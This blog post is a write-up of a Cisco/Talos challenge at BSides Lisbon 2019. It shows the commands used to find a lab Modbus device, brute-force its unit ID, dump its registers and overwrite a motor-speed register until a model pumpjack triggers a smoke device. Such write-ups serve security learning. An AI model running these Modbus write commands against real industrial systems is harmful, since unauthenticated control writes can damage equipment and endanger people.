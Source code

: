 ```yaml
---
layout: post
title: "Make it smoke! Cisco Challenge Write-up"
categories: [infosec, iot]
tags: [bsideslisbon, infosec, iot, cisco]
thumbnail: /images/bsideslx19/final.png
description: "Write-up of a sidequest challenge by Cisco/Talos during BSidesLisbon 2019"
---
```


[BSides Lisbon](https://bsideslisbon.org/) is the biggest security dedicated event in Portugal, with two days of talks, workshops, a CTF competition, and lots more. During BSides, some _sidequests_ ranging from raffles to challenges appear that can give you prizes*!* This is a write-up of one of those challenges by Cisco/Talos.

<!--more-->

## The Challenge

![Make it Smoke!](/images/bsideslx19/header.png)

In the booth of Cisco/Talos, we were presented with the following scenario (as it can be seen in the picture):

1. An access point (AP) named `security` with the password `cisco12345`.
2. A 3d-printed pumpjack[^1].
3. Some controlling system based on Arduino.
4. The objective was to make it smoke somehow.

## Preliminaries

First thing first, connect to the network and do a quick network and port scan. Since it was an AP for everyone that wanted to do the challenge, several IP's showed up, but only one interesting, the `10.10.10.1` with the port `502` open.

As per Siemens documentation: _By default, the protocol uses Port `502` as local port in the Modbus server_[^2]. Thus we are probably faced with something that speaks _Modbus_ protocol.

With a little of search, you can find a lot of _Modbus_ protocol clients in the wild, as well as some _offensive_ toolkits.

## Making it smoke!

Using the [smod-1 by theralfbrown](https://github.com/theralfbrown/smod-1) toolkit, I was able to connect to the Modbus system and interact with it.

{% highlight bash %}
$ python smod.py
SMOD > use modbus/scanner/uid
SMOD modbus(uid) > set RHOST 10.10.10.1
SMOD modbus(uid) > exploit
[+] Module Brute Force UID Start
[+] Start Brute Force UID on : 10.10.10.1
[+] UID on 10.10.10.1 is : 10
{% endhighlight %}

Now I did know the UID of the Modbus, however even after exploring the DoS capabilities and _all_ the reader modules I was not getting anywhere close to make it smoke.

So, after exploring a little more one Github, I found out this really nice [modbus-cli by tallakt](https://github.com/tallakt/modbus-cli).

Even if it was not implemented with an _offensive_ mindset like the previous tool, it allowed us to read, write and **dump** the memory of a _Modbus_ device. Using it, we were able to read random parts of the memory, _e.g._, reading five words from the device starting from address `%MW100` (which corresponds to address `400101`).

{% highlight bash %}
$ modbus read 10.10.10.1 %MW100 5
%MW100 0
%MW101 0
%MW102 0
%MW103 0
%MW104 0
{% endhighlight %}

After trying to read random places of the memory using this tool and finding nothing but zero values, and decided to just _dump_ everything into a file (the operation took around 20 seconds).

{% highlight bash %}
$ modbus read --output mybackup.yml 10.10.10.1 400001 1000
{% endhighlight %}

After dumping all the memory into a file, looking into the file:

{% highlight bash %}
$ cat mybackup.yml

---

:host: 10.10.10.1
:port: 502
:slave: 1
:offset: '400001'
:data:

- 0
- 0
- 0
- 0
- 0
- 0
- 5000
- 0
  -- show more --
  {% endhighlight %}

The file keeps going on, with a lot of zero's and a lot of random values. I guess that those random values were the result of all the participants trying to _pwn_ it.

However, that seventh value caught my attention because it was a single round number. Maybe that was the speed of the rotation mechanism of the pumpjack, _maybe_.

Checking if the dump was correct, with the same tool we could read that specific part of the memory:

{% highlight bash %}
$ modbus read 10.10.10.1 400001 7
400001 0
400002 0
400003 0
400004 0
400005 0
400006 0
400007 8000
{% endhighlight %}

And yep, the value was still there, but a bit higher (and we could observe the pumpjack rotating more quickly).

So the next step was to try to write some higher value there:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 10000
{% endhighlight %}

And then, _higher_:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 18000
{% endhighlight %}

And this was it, the increase in the rotation speed of the pumpjack triggered the smoke device that was connected to the Arduino!

![Running like hell!](/images/bsideslx19/final.png)

This was my first time playing around with _Modbus_, and there is still a lot that I didn't touch nor understood. Nonetheless, it was a nice kickstart.

Props to Cisco and Talos for coming up with the challenge and for the coffee mug and the [_snort_](https://www.snort.org/). And _pwning_ IoT is the best kind of _pwn_.

---

[^1]: [Pumpjack on Wikipedia](https://en.wikipedia.org/wiki/Pumpjack)
[^2]: [Which ports are released for Modbus/TCP communication](https://support.industry.siemens.com/cs/document/34010717/which-ports-are-released-for-modbus-tcp-communication-and-how-many-modbus-clients-can-communicate-with-a-simatic-s7-pn-cpu-as-modbus-server-?dti=0&lc=en-WW)

